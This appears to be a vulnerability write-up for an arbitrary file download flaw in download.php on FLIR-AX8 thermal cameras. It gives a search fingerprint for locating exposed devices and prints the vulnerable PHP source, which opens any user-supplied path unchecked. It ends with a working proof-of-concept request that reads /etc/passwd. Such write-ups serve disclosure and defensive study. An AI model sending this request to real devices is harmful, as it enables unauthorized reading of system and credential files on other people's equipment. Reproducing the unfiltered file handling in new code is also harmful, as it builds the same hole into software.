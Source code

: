 # FLIR-AX8 download.php any file download

## Vulnerability Description

FLIR-AX8 download.php file is incomplete filtering, and there is a vulnerability to download any file

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">FLIR-AX8</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="FLIR-FLIR-AX8"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662985620542-08eeac2c-70ee-475d-979d-52f4c9ec3be4-20220912212120399.png)

The file with the vulnerability is **download.php**

```php
<?php
/**
 * Copyright 2012 Armand Niculescu - MediaDivision.com
 * Redistribution and use in source and binary forms, with or without modification, are permitted provided that the following conditions are met:
 * 1. Redistributions of source code must retain the above copyright notice, this list of conditions and the following disclaimer.
 * 2. Redistributions in binary form must reproduce the above copyright notice, this list of conditions and the following disclaimer in the documentation and/or other materials provided with the distribution.
 * THIS SOFTWARE IS PROVIDED BY THE FREEBSD PROJECT "AS IS" AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE FREEBSD PROJECT OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
 */
// get the file request, throw error if nothing supplied

// hide notices
@ini_set('error_reporting', E_ALL & ~ E_NOTICE);

//- turn off compression on the server
//@apache_setenv('no-gzip', 1);
//@ini_set('zlib.output_compression', 'Off');

if(!isset($_REQUEST['file']) || empty($_REQUEST['file']))
{
	header("HTTP/1.0 400 Bad Request");
	exit;
}

// sanitize the file request, keep just the name and extension
// also, replaces the file location with a preset one ('./myfiles/' in this example)
$file_path  = $_REQUEST['file'];
$file_type = $_REQUEST['type'];
$path_parts = pathinfo($file_path);
$file_name  = $path_parts['basename'];
$file_ext   = $path_parts['extension'];

// allow a file to be streamed instead of sent as an attachment
$is_attachment = isset($_REQUEST['stream']) ? false : true;

// make sure the file exists
if (is_file($file_path))
{
	$file_size  = filesize($file_path);
	$file = @fopen($file_path,"rb");
	if ($file)
	{
		// set the headers, prevent caching
		header("Pragma: public");
		header("Expires: -1");
		header("Cache-Control: public, must-revalidate, post-check=0, pre-check=0");
		header("Content-Disposition: attachment; filename=\"$file_name\"");

        // set appropriate headers for attachment or streamed file
        if ($is_attachment) {
                header("Content-Disposition: attachment; filename=\"$file_name\"");
        }
        else {
                header('Content-Disposition: inline;');
                header('Content-Transfer-Encoding: binary');
        }

        // set the mime type based on extension, add yours if needed.
        $ctype_default = "application/octet-stream";
        $content_types = array(
                "exe" => "application/octet-stream",
                "zip" => "application/zip",
                "mp3" => "audio/mpeg",
                "mpg" => "video/mpeg",
                "avi" => "video/x-msvideo",
        );
        $ctype = isset($content_types[$file_ext]) ? $content_types[$file_ext] : $ctype_default;
        header("Content-Type: " . $ctype);

		//check if http_range is sent by browser (or download manager)
		if(isset($_SERVER['HTTP_RANGE']))
		{
			list($size_unit, $range_orig) = explode('=', $_SERVER['HTTP_RANGE'], 2);
			if ($size_unit == 'bytes')
			{
				//multiple ranges could be specified at the same time, but for simplicity only serve the first range
				//https://tools.ietf.org/id/draft-ietf-http-range-retrieval-00.txt
				list($range, $extra_ranges) = explode(',', $range_orig, 2);
			}
			else
			{
				$range = '';
				header('HTTP/1.1 416 Requested Range Not Satisfiable');
				exit;
			}
		}
		else
		{
			$range = '';
		}

		//figure out download piece from range (if set)
		list($seek_start, $seek_end) = explode('-', $range, 2);

		ob_clean();
		
		//set start and end based on range (if set), else set defaults
		//also check for invalid ranges.
		$seek_end   = (empty($seek_end)) ? ($file_size - 1) : min(abs(intval($seek_end)),($file_size - 1));
		$seek_start = (empty($seek_start) || $seek_end < abs(intval($seek_start))) ? 0 : max(abs(intval($seek_start)),0);
	 
		//Only send partial content header if downloading a piece of the file (IE workaround)
		if ($seek_start > 0 || $seek_end < ($file_size - 1))
		{
			header('HTTP/1.1 206 Partial Content');
			header('Content-Range: bytes '.$seek_start.'-'.$seek_end.'/'.$file_size);
			header('Content-Length: '.($seek_end - $seek_start + 1));
		}
		else
		  header("Content-Length: $file_size");

		header('Accept-Ranges: bytes');
    
		set_time_limit(0);
		fseek($file, $seek_start);
		
		while(!feof($file)) 
		{
			print(@fread($file, 1024*8));
			ob_flush();
			flush();
			if (connection_status()!=0) 
			{
				@fclose($file);
				exit;
			}			
		}
		
		// file save was a success
		@fclose($file);
		exit;
	}
	else 
	{
		// file couldn't be opened
		header("HTTP/1.0 500 Internal Server Error");
		exit;
	}
}
else
{
	// file does not exist
	header("HTTP/1.0 404 Not Found");
	exit;
}
?>
```

Verify POC

```plain
/download.php?file=/etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662985662585-c79e5e7d-48c8-4c62-8108-0a29c34c8cac.png)